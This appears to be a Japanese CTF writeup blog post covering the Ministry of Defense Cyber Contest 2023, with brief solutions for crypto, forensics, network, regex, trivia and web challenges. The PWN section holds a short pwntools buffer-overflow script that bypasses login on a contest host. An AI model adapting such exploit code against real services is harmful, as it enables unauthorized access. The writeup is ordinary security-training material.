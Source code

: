 +++
title = "防衛省サイバーコンテスト2023 writeup"
date = "2023-8-6"
description = "2023/8/6似開催された防衛省サーバーコンテストのwriteupです。"
draft = false
header_img = ""
toc = true
tags = ["CTF","writeup"]
comment = true
+++

2023年8月6日に行われた防衛省が主催のCTF大会、防衛省サーバーコンテストに参加しました。  
難易度は中級〜上級といったところでしょうか。様々なジャンルの問題がありました。  
個人的には初めてPWNの問題を解くことができてめちゃくちゃ嬉しかったです。    
ただ、終了時間と同時に問題文すら見れなくなってしまったので、もう少し解けなかった問題の復習ができる時間とかを確保してくれたらとても嬉しかったです。  
wirteup用の問題文のスクショとかも撮ってなかったので、とっても簡易的なものになってます。

## CRYPT
### Simple Substitution Cipher
ROT13でした。

### Substitution Cipher
ヴィジュネル暗号でした。
問題文にあった、`ggcp{wIR2AuVebMyR}`は`flag{*******}`となるので鍵は`bvcj`となることがわかりました。

## Forensics
### The Place of The First Secret Meeting
画像が与えられます。問題文からてっきり後ろのマンションの名前を入れればいいと勘違いしてたのですが、どでかく存在しているやぐらの名前を入れれば良かったことに気づきました笑
→うしとらやぐら

### The Deleted Confidential File
vhdファイルが与えられます。
`Autopsy`を使ってvhdファイルを読み込んでみると、削除済みの一覧に`重要.zip`が見つかりました。バイナリファイルで見てみるとフラグが隠れていました。


## NW
### Analysis
2023/4/7 12:26:25,119970,10.200.200.15,TCP_TUNNEL/200,8099213,CONNECT,amazon_co_jp.ipa-info.net:22,HIER_DIRECT/2.57.80.99,-


## PROGRAMING
### Regex Exercise
`grep -E 'flag{Regexp.!![0-9]{2}S' regex-flags.txt `
としたら４択まで絞れました。

## TRIVIA
### Threat
ChatGPTに問題文を丸投げしたら答えてくれました。

### Behavior
同じくChatGPT

### Inventor
同じくChatGPT

## PWN
### Auth
はじめてPWNが解けました！  
めちゃくちゃ嬉しかったです。  
問題としてはBOFでローカル変数を書き換える問題。  
以下のようなコードを書きました。
```python
from pwn import *

ip = '10.10.10.15'
port = 1001
payload = b'a'*26
payload += p64(0x65757274)

r = remote(ip, port)

print(r.recvuntil(b'User: '))
usr = p64(0x6e696d6461)
print(r.sendline(usr))

print(r.recvuntil(b'Password: '))
print(r.sendline(payload))

res = r.recvall()
print(res)
```

## Web
### Basic
パケットキャプチャが与えられます。
TCPストリームの６番でBasic認証に `200 OK`を返している。

